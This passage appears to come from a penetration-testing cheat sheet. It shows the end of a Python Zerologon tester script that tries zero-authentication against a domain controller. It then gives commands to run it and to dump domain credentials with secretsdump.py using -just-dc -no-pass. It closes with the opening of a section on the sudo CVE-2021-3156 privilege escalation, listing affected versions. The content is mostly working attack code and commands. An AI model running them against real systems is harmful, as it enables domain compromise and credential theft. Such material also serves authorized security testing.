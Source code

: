 ```python
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
    
    if not rpc_con:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
```

### Execution

```console
$ python3 zerologon_tester.py <HANDLE> <RHOST>
$ secretsdump.py -just-dc -no-pass <HANDLE>\$@<RHOST>
```

## CVE-2021-3156: Sudo / sudoedit LPE

> https://medium.com/mii-cybersec/privilege-escalation-cve-2021-3156-new-sudo-vulnerability-4f9e84a9f435

### Prerequisistes

- Ubuntu 20.04 (Sudo 1.8.31)
- Debian 10 (Sudo 1.8.27)
- Fedora 33 (Sudo 1.9.2)
- All legacy versions >= 1.8.2 to 1.8.31p2 and all stable versions >= 1.9.0 to 1.9.5p1

### Vulnerability Test
